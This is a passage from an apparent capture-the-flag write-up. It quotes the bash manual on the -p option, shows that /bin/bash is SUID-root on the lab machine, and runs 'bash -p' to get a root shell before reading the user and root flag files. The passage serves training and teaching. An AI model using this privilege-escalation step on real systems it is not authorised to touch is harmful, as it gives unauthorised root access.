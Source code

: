 > If the shell is started with the effective user (group) id not equal to the real user (group) id, and the **-p** option is not supplied, no startup files are read, shell functions are not inherited from the environment, the **SHELLOPTS**, **BASHOPTS**, **CDPATH**, and **GLOBIGNORE** variables, if they appear in the environment, are ignored, and the effective user id is set to the real user id. If the **-p** option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.

Looking at the permissions for `/bin/bash` and `/usr/bin/bash` shows us that they both do in fact have SUID enabled.

```bash
bash-5.1$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
bash-5.1$ ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /usr/bin/bash
```

So if we just run
```bash
bash -p
```
we get back a root shell!

Now to get the flags we just run
```bash
cat /home/henry/user.txt
cat /root/root.txt
```
